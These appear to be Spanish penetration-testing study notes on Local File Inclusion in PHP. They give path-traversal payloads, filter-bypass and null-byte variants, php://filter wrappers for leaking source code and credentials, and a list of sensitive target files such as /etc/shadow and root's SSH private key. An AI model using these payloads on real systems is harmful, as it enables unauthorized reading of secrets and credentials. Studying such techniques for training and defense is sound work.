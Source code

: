 # Local File Inclusion
Es una vulnerabilidad que nos permite visualizar ficheros de la máquina victima a través del navegador web.
Cuando tenemos la opción de vulnerar un LFI  (ejemplo lo pongo después), nos podemos encontrar con restricciones. PHP, que utiliza funciones como ```include```, ```require```, ```include_once``` y ```require_once```, a menudo contribuye a que las aplicaciones web sean vulnerables.

## Sin restricción
Basta con poner el nombre del fichero que queremos leer

## Estando enjaulado en /var/www/html
Basta con volver a la raíz con '../'
```
../../../../..//etc/passwd
```

## Con '../' restringido

Pondriamos doble  '....//' ya que la sanitización eliminaría el primer '../' pero quedaría el segundo
```
....//....//....//....//etc/passwd
```

## Con cadenas de texto concretos restringidos

Si tenemos /etc/passwd restringido por ejemplo, podemos jugar con interrogantes, o incluso con barras o './'
```
....//....//....//....//?tc/p?sswd
....//....//....//....//etc///////////passwd
....//....//....//....//etc/./././passwd
```

Incluso si tenemos restringido, que los ultimos 6 caracteres conicidan con 'passwd'
```
....//....//....//....//etc/./././passwd/.
```
## Con forzado de extensiones
si el desarrollador concatena el $filename con por ejemplo .php, el fichero que buscaríamos sería /etc/passwd.php, cosa que no existe. para ello se puede para algunas versiones de PHP aplicar un null byte, con '%00' o '\0'

```
....//....//....//....//etc/passwd%00
....//....//....//....//etc/passwd\0
```


# Jugando con wrappers

Al navegar por un sitio web con php, en la url se hace referencia al fichero, por ejemplo index.php, o about.php. Lo que ocurre que si nos dirigimos a ese fichero, el propio servidor lo va a interpretar y cargará el sitio web.

Para ello jugaremos con un wrapper que nos convierte la petición al fichero php en base64, posteriormente inspeccionamos el código web con 'Clic derecho > inspeccionar'.  y buscamos la cadena en base64. 


Si nos fijamos ```page=courses ``` hace referencia a una página. es común que el código haga una concatenación con la extensión php. de manera que cuando pone page=courses, en realidad se está dirigiendo al fichero courses.php


<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi2.png" />

Teniendo esto claro, podemos jugar con el wrapper ```
```
php://filter/convert.base64-encode/resource=
```

<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/lfi1.png" />

Así estamos accediendo al fichero index.php para ver su contenido. Algo que puede ser útil para visualizar por ejemplo un fichero php de conexión a base de datos, que debe incluir las credenciales de acceso.

también tenemos estos, que nos mostraría directamente el codigo php por pantalla:
```
php://filter/read=string.rot13/resource= 
```
y para descifrar esto, en bash:
```
tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]'
```


Otro ejemplo mas práctico:
```
php://filter/convert.iconv.utf8-utf16/resource=
```

-----------------------------
## Ficheros para testear
* /etc/profile controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived
* /proc/version specifies the version of the Linux kernel
* /etc/passwd has all registered user that has access to a system
* /etc/shadow contains information about the system's users' passwords
* /root/.bash_history contains the history commands for root user
* /var/mail/root all emails for root user
* /root/.ssh/id_rsa Private SSH keys for a root or any known valid user on the server
* /var/log/apache2/access.log the accessed requests for Apache  webserver

